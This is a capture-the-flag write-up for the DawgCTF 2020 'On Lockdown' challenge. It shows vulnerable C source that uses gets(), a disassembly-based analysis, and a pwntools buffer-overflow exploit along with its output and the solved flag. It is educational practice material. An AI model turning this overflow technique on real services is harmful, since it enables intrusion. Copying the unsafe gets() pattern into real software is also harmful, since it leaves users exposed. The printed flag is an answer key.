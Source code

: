 # DawgCTF 2020

## On Lockdown

> 50
>
> Better than locked up I guess
>
> `nc ctf.umbccd.io 4500`
> 
> Author: trashcanna
> 
> [onlockdown](onlockdown) [onlockdown.c](onlockdown.c)

Tags: _pwn_


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Most mitigations in place, however can smash stack, ROP, buffer overflow, but no GOT.


#### Source Included!

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void flag_me(){
    system("cat flag.txt");
}

void lockdown(){
    int lock = 0;
    char buf[64];
    printf("I made this really cool flag but Governor Hogan put it on lockdown\n");
    printf("Can you convince him to give it to you?\n");
    gets(buf);
    if(lock == 0xdeadbabe){
        flag_me();
    }else{
        printf("I am no longer asking. Give me the flag!\n");
    }
}

int main(){
    lockdown();
    return 0;
}
```

Just need to set `lock` to `0xdeadbabe`.

But wait, from Ghidra:

```c
void lockdown(void)

{
  char local_50 [64];
  int local_10;
  
  local_10 = 0;
  puts("I made this really cool flag but Governor Hogan put it on lockdown");
  puts("Can you convince him to give it to you?");
  gets(local_50);
  if (local_10 == 0) {
    puts("I am no longer asking. Give me the flag!");
  }
  else {
    flag_me();
  }
  return;
}
```

And `objdump`:

```
    1230:	83 7d f4 00          	cmp    DWORD PTR [ebp-0xc],0x0
    1234:	74 07                	je     123d <lockdown+0x59>
    1236:	e8 7e ff ff ff       	call   11b9 <flag_me>
    123b:	eb 12                	jmp    124f <lockdown+0x6b>
```

`lock` just has to be non-zero!  You can accidentally solve this by blasting a lot of anything.

There is clearly a buffer overflow: `gets(local_50)`.  `local_50` is 76 bytes above EBP: 

```
00011224 8d 45 b4        LEA        EAX=>local_50,[EBP + -0x4c]
```

`local_10` is 12 (`[ebp-0xc]`) bytes above EBP, so sending 64 (76-12) bytes + 4 bytes will set `local_10`.


### Exploit

```python
from pwn import *

p = process('./onlockdown')
#p = remote('ctf.umbccd.io', 4500)

p.recvuntil('you?\n')

payload  = 64 * b'A'
payload += 4 * b'A'

p.sendline(payload)
p.stream()
```

#### Output

```
[+] Opening connection to ctf.umbccd.io on port 4500: Done
DawgCTF{s3ri0u$ly_st@y_h0m3}
```

#### Flag

```
DawgCTF{s3ri0u$ly_st@y_h0m3}
```
